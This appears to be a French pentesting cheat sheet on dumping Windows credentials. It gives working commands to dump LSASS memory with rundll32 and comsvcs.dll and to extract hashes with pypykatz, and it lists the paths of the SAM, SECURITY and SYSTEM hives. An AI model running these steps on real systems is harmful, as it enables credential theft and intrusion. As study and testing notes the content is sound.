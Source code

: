 ## [Local Security Authority Subsystem Service](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) (`LSASS`)

Processus qui gère les creds en mémoire

```
%SystemRoot%\System32\Lsass.exe
```

### Dump du processus LSASS (nt authority/system)

Récupérer l'id du processus
```powershell
Get-Process lsass
```

Dump avec rundll32 (flag par les AV)
```powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <id> C:\lsass.dmp full
```

Exfiltrer le dump
[[DATA TRANSFER#UPLOADS Exfiltration]]

Extraire les hash avec pypykatz
```shell
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```




## RUCHES 

- SAM -> C:\Windows\System32\config\SAM
- SECURITY -> C:\Windows\System32\config\SECURITY
- SYSTEM -> C:\Windows\System32\config\SYSTEM

### [Security Account Manager](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc756748\(v=ws.10\)?redirectedfrom=MSDN) (`SAM`) (HKLM\SAM)

Fichier de base de données qui stocke les hash des comptes locaux.

```
%SystemRoot%/system32/config/SAM
```


### Ruche SECURITY (HKLM\SECURITY)

Stocke les secrets LSA
- Mots de passe utilisateurs
- Mots de passe internet explorer
- Mots de passe des comptes de services
- Mots de passe des comptes pour les tâches planifiées
- Mots de passe des comptes de domaine mis en cache.
